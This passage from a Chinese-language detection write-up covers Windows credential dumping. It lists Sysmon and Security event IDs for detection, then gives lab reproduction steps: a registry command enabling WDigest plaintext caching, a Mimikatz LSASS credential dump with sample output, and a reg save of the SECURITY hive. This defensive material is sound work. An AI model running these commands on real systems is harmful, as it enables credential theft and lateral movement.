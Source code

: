      - 输出示例：
       ```
       * Secret: DefaultPassword
         Password: AutoLogonPass123
       ```

### 参考资源
- Mimikatz文档：<https://github.com/gentilkiwi/mimikatz>
- LSA凭据提取：<https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/>
- WDigest安全：<https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-allow-local-system-to-use-computer-identity-for-ntlm>

## 检测日志

### 数据来源
- **Sysmon日志**：
  - 事件ID1：进程创建（mimikatz.exe、reg.exe）
  - 事件ID7：映像加载（lsass.exe相关模块）
  - 事件ID13：注册表操作（HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets）
- **Windows安全日志**：
  - 事件ID4688：进程创建（mimikatz.exe、reg.exe）
  - 事件ID4673：敏感权限调用（如SeDebugPrivilege）
  - 事件ID4656：注册表访问（需启用对象访问审计）
- **文件系统**：
  - 监控`C:\Temp\`或`%temp%`的`.hiv`文件创建
- **网络流量**（可选）：
  - 捕获`.hiv`文件传输（SMB 445/TCP）

## 测试复现

### 环境配置
- 系统：Windows Server 2012（WDigest启用）
- 工具：Mimikatz、reg.exe
- 用户：Administrator（密码：Password123）
- 日志：Sysmon（事件ID1、7、13）、Windows安全日志
- 路径：C:\Temp\

### 复现步骤
1. **启用WDigest**：
   ```cmd
   reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
   ```
2. **提取LSASS凭据**：
   ```cmd
   cd C:\Tools\mimikatz
   mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
   ```
   - 输出：
     ```
     wdigest:
       * Username: Administrator
       * Domain: ABCC
       * Password: Password123
     ```
3. **导出LSA机密**：
   ```cmd
   reg save HKEY_LOCAL_MACHINE\SECURITY C:\Temp\security.hiv
   ```
   - 输出：`操作成功完成。`
4. **验证日志**：
   - Sysmon事件ID1：确认`mimikatz.exe`执行。